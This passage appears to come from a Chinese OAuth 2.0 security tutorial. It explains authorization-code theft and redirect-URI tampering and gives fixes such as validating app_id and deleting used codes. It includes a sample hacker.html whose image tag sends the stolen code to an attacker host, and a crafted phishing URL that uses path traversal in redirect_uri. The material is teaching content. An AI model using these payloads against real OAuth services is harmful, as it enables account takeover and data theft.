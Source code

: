 所以，在开放平台环境下，我们就要更加重视与防范数据的越权问题。

以上，CSRF攻击、XSS攻击、水平越权这三种攻击类型，它们都属于OAuth 2.0面临的互联网非常常见的通用攻击类型。而对于其他的互联网攻击类型，如果你想深入了解的话，可以看一下这篇[安全案例回顾](https://wooyun.js.org/drops/OAuth%202.0%E5%AE%89%E5%85%A8%E6%A1%88%E4%BE%8B%E5%9B%9E%E9%A1%BE.html)的文章。

接下来，我们再看两种OAuth 2.0专有的安全攻击，分别是授权码失窃、重定向URI被篡改。

## 授权码失窃

我们举个例子，先来学习授权码失窃这个场景。

如果第三方软件A有合法的app\_id和app\_secret，那么当它去请求访问令牌的时候，也是合法的。这个时候没有任何问题，让我们继续。

如果有一个用户G对第三方软件B，比如极客时间，进行授权并产生了一个授权码codeB，但并没有对攻击者软件A授权。此时，软件A是不能访问用户G的所有数据的。但这时，如果软件A获取了这个codeB，是不是就能够在没有获得用户G授权的情况下访问用户G的数据了？整个过程如下图所示。

![](https://static001.geekbang.org/resource/image/7d/7b/7d464d5a0c49a77862fef10f77cf057b.png "图5 授权码失窃攻击过程")

**这时问题的根源就在于两点：**

*   授权服务在进行授权码校验的时候，没有校验app\_id\_B；
*   软件B（也就是极客时间）使用过一次codeB的值之后，授权服务没有删除这个codeB；

看到这里，通过校验app\_id\_B，并删除掉使用过一次的授权码及其对应的访问令牌，就可以从根本上来杜绝授权码失窃带来的危害了。

说到这里，你不禁要问了，授权码到底是怎么失窃的呢？接下来，我要介绍的就是授权码失窃的可能的方法之一，这也是OAuth 2.0中因重定向URI校验方法不当而遭受到的一种危害。这种安全攻击类型，就是重定向URI被篡改。

## 重定向URI被篡改

有的时候，授权服务提供方并没有对第三方软件的回调URI做完整性要求和完整性校验。比如，第三软件B极客时间的详细回调URI是`https://time.geekbang.org/callback`，那么在完整性校验缺失的情况下，只要以`https://time.geekbang.org`开始的回调URI地址，都会被认为是合法的。

此时，如果黑客在`https://time.geekbang.org/page/`下，创建了一个页面**hacker.html**。这个页面的内容可以很简单，其目的就是让请求能够抵达攻击者的服务。

```
<html>
<img src ="https://clientA.com/catch">
</html>

```

好了，我们继续看下接下来的攻击流程：

![](https://static001.geekbang.org/resource/image/04/41/04d71e6a8d32fe8b516db7e7424bf141.png "图6 重定向URI被篡改的攻击过程")

首先，黑客将构造的攻击页面放到对应的hacker.html上，也就是`https://time.geekbang.org/page/hacker.html`上 ，同时构造出了一个新的重定向URI，即`https://time.geekbang.org/page/welcome/back.html../hacker.html`。

然后，黑客利用一些钓鱼手段诱导用户，去点击下面的这个地址：

```
https://oauth-server.com/auth?respons_type=code&client_id=CLIENTID&redirect_uri=https://time.geekbang.org/page/welcome/back.html../hacker.html

```
